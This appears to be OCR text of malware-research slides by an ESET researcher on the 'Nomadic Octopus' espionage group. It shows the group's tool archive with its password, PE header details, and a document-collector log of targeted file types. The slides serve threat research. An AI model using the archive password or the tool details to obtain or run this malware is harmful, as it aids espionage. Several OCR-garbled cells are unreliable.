|  |  | 311 296 |  | 172 527 | 2016-09-14 09:58 | + | ZipCrypto Deflate |  |  |  |
| proxy.exe |  | 131 072 |  | 70 991 | 2016-09-14 09:58 | + | ZipCrypto Deflate |  |  |  |
| prtsc.exe |  | 936 448 |  | 453 890 | 2016-12-01 09:45 | + | ZipCrypto Deflate |  |  |  |
| svh.exe |  | 2 056 192 |  | 851 124 | 2016-07-19 09:21 | + | ZipCrypto Deflate |  |  |  |
|  |  |  | = |  |  |  |  |  |  |  |
| 0 object(s) selected |  |  |  |  |  |  |  |  |  |  |

# Tools

#### Password: iM2d$xP(84Y!YV49uFO@kJm5O&2l5AFs

| ZZ D: |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| File Edit | Count of sections | 11 | Machine | Into 1286 |  |
| 라 | Symbol table 00000000[00000000] |  | UTC Fri Dec 05 14:52:40 2014 |  |  |
| Add Extr | Size of optional header | 00E0 | Magic operonan neader | Official |  |
|  | Linker version | 2.25 | OS version | 5.00 |  |
| 2 1 % ] D | Image version | 0.00 | Subsystem version | 5.00 |  |
| Name | Entry point | 001BF294 | Size of code | 001BDC00 | Attribu |
| = Bolink.e> | Size of init data | 00038000 | Size of uninit data | 0000000000 |  |
| = proxy.e | Size of image | 00204000 | Size of header | 00000400 |  |
| = prtsc.ex | Base of code | 00001000 | Base of data | 001C0000 |  |
| svh.exe | Image base | 004000000 | Subsystem | GUI |  |
|  | Section alignment | 00001000 | File alignment | 00000200 |  |
|  | Stack | 00100000/00004000 | Heap 00100000/00001000 |  |  |
| 0 object(s) : | Checksum | 0000000000 | Number of dirs | 16 |  |

# Documents collector

| SuccessLog.txt - Notepad |  |  |  | × |
| --- | --- | --- | --- | --- |
| File Edit Format View Help |  |  |  |  |
| SearchPath: "G:\" | TypeFiles: "doc,docx,xls,xlsx,rtf,txt,pdf" | Date: 10.04.2017-13.04.2017 |  |  |
| Nownomonstart: 14.04.2017 10:14:23Nunnovon |  |  |  |  |
| 11.04.2017 12:01:04 | G:\Document1.docx |  |  |  |
| 11.04.2017 17:16:16 | G:\Document2.doc |  |  |  |
| NANNANNNEND : | 14.04.2017 10:23:03NNNNNNN |  |  |  |


### Nomadic Octopus

- •Custom malware
- Cyberespionage
- Region specific: Central Asia
- Low budget
- Bad OPSEC


# Anton Cherepanov

Senior Malware Researcher

@cherepanov74

www.eset.com | www.welivesecurity.com

